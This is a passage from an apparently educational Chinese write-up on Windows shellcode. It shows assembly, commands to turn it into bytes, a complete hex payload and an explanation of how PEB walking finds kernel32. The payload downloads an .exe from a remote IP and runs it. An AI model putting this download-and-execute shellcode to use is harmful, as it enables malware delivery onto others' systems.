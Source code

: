     push edx                ; "\x00,cex"
    push 0x456E6957         ; EniW : 456E6957
    mov [ebp+0x18], esp     ; save address of string 'WinExec\x00' to the stack-frame
    call findFunctionAddr   ; After Return EAX will = &WinExec
    
    xor ecx, ecx          ; clear eax register
    push ecx              ; string terminator 0x00 for "hack.exe" string
    push 0x6578652e       ; exe. : 6578652e
    push 0x6B636168       ; kcah : 6B636168
    mov ebx, esp          ; save pointer to "hack.exe" string in eax
    inc ecx               ; uCmdShow SW_SHOWNORMAL = 0x00000001
    push ecx              ; uCmdShow  - push 0x1 to stack # 2nd argument
    push ebx              ; lpcmdLine - push string address stack # 1st argument
    call eax              ; Call the WinExec Function
    
    ; Create string 'ExitProcess\x00' on the stack and save its address to the stack-frame
     xor ecx, ecx          ; clear eax register
     mov ecx, 0x73736501     ; 73736501 = "sse",0x01 // "ExitProcess",0x0000 string
     shr ecx, 8              ; ecx = "ess",0x00 // shr shifts the register right 8 bits
     push ecx                ;  sse : 00737365
     push 0x636F7250         ; corP : 636F7250
     push 0x74697845         ; tixE : 74697845
     mov [ebp+0x18], esp     ; save address of string 'ExitProcess\x00' to stack-frame
     call findFunctionAddr   ; After Return EAX will = &ExitProcess
    
    ; Call ExitProcess(ExitCode)
     xor edx, edx
     push edx                ; ExitCode = 0
     call eax                ; ExitProcess(ExitCode)
    ```

  * 将该反汇编文件通过`nasm`工具进行编译并用`objdump`工具变为可执行代码
    ```bash
    nasm -f win32 test.asm -o test.o
    for i in $(objdump -D test.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
    ```
  * 得到的代码如下
    ```shell
    \x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41\x8b\x04\x82\x03\x45\xfc\xc3\x31\xc0\x66\xb8\x73\x73\x50\x68\x64\x64\x72\x65\x68\x72\x6f\x63\x41\x68\x47\x65\x74\x50\x89\x65\x18\xe8\xb0\xff\xff\xff\x89\x45\xe4\x31\xd2\x52\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\xff\x75\xfc\x8b\x45\xe4\xff\xd0\x89\x45\xe0\x31\xc0\x66\xb8\x6f\x6e\x50\x68\x75\x72\x6c\x6d\x54\x8b\x5d\xe0\xff\xd3\x89\x45\xdc\x31\xd2\x66\xba\x65\x41\x52\x68\x6f\x46\x69\x6c\x68\x6f\x61\x64\x54\x68\x6f\x77\x6e\x6c\x68\x55\x52\x4c\x44\x54\xff\x75\xdc\x8b\x45\xe4\xff\xd0\x89\x45\xd8\x58\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x73\x65\x64\x74\x68\x2f\x67\x6f\x6f\x68\x36\x2e\x31\x33\x68\x36\x38\x2e\x35\x68\x39\x32\x2e\x31\x68\x3a\x2f\x2f\x31\x68\x68\x74\x74\x70\x54\x59\x31\xdb\x53\x68\x2e\x65\x78\x65\x68\x68\x61\x63\x6b\x54\x5b\x31\xd2\x52\x52\x53\x51\x52\x8b\x45\xd8\xff\xd0\x59\x83\xc4\x2c\x31\xd2\x39\xd0\x51\x75\xac\x5a\xba\x78\x78\x65\x63\xc1\xea\x08\x52\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xe8\xfe\xff\xff\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x68\x61\x63\x6b\x89\xe3\x41\x51\x53\xff\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\xb7\xfe\xff\xff\x31\xd2\x52\xff\xd0
    ```
  * 代码可成功执行！  
  * 解读这段代码：
    * 利用一个call来使得系统将EIP入栈，并马上pop出来，从而解决了自身代码定位问题，而且由于shellcode编排得巧妙，得到的地址正是指向“数据区”的开头。
    * 利用地址fs:[0x30]得到PEB头部的地址。然后读取PEB中的PLDR_DATA指针，再找LDR_DATA结构中的 InInitializationOrderModuleList的Flink，从而得到指向kernel32.dll的LDR_MODULE结构的地址。
    * 通过读取LDR_MODULE结构中的BaseAddress，从而得到了kernel32.dll在进程空间中的基址。
    * 通过读取kernel32.dll在进程空间中的映像的PE文件结构，找到其输出表，通过循环比对，在AddressOfNames数组中找到指向GetProcAddress这个函数名的指针位置，定位其索引号位置。 
    * 通过索引查AddressOfFunctions数组，找到GetProcAddress的函数入口偏移量，加上kernel32.dll的基址，得到了GetProcAddress函数的确切入口。 